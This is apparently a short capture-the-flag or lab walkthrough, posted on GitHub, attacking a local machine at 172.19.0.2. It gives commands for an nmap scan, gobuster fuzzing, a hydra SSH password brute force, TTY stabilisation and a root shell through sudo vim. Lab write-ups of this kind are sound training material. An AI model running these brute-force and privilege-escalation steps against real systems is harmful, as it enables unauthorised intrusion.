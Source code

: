 ![image](https://github.com/user-attachments/assets/413f0b5c-bcdf-4358-98d2-3c4943b82913)
```bash
ping -c 1 172.19.0.2
```
![Pasted image 20250114112725](https://github.com/user-attachments/assets/ce50f608-a630-4357-afbc-78f8058f501a)

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn IP -oG allports
```
![Pasted image 20250114113606](https://github.com/user-attachments/assets/06118757-5dbc-486a-898a-f8838dc5d5d8)

```bash
nmap -sCV -pPORT,PORT IP -oN targeted
```
![Pasted image 20250114113800](https://github.com/user-attachments/assets/467e4d4e-35b6-4b55-b4a9-3ce580a31b40)

## **Fuzzing web**
```bash
gobuster dir -u http://172.19.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x txt,py,php,sh
```
![Pasted image 20250114115113](https://github.com/user-attachments/assets/c80ec477-2d7b-4d29-9c62-f66342ded289)
![Pasted image 20250114115206](https://github.com/user-attachments/assets/318bc77b-7532-48b7-b75a-f9eff21fd76b)

## **We have a user, now we will attack the other port**

![Pasted image 20250114115309 1](https://github.com/user-attachments/assets/f70ab6f6-3219-4e15-924e-7a015c8ba38d)

## **We apply brute force**
```bash
hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://172.19.0.2 -t 4
```
![Pasted image 20250114120127](https://github.com/user-attachments/assets/e619cffa-712c-458e-a069-a20d5decef1a)

```bash
ssh mario@172.19.0.2
```
![Pasted image 20250114120314](https://github.com/user-attachments/assets/d5d0614e-5d0a-4901-8a48-1c2fd2069127)

## **now we will make a treatment of the TTY**
```bash
script /dev/null -c bash
"CTRL+Z"
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
```
![Pasted image 20250114120539](https://github.com/user-attachments/assets/5858820d-d139-4475-9490-f55720a39edf)

## **we make an escalation of privileges**
```bash
sudo -l
```
![Pasted image 20250114120721](https://github.com/user-attachments/assets/110f976f-2983-4602-970f-ea027501ff41)
![Pasted image 20250114121035](https://github.com/user-attachments/assets/2955c20d-e772-4ccc-b08d-2c2f0b7b403c)

```bash
sudo vim -c ':!/bin/sh'
```
![Pasted image 20250114121054](https://github.com/user-attachments/assets/7e2658f0-c9bc-460e-894f-22d2c58e5c66)


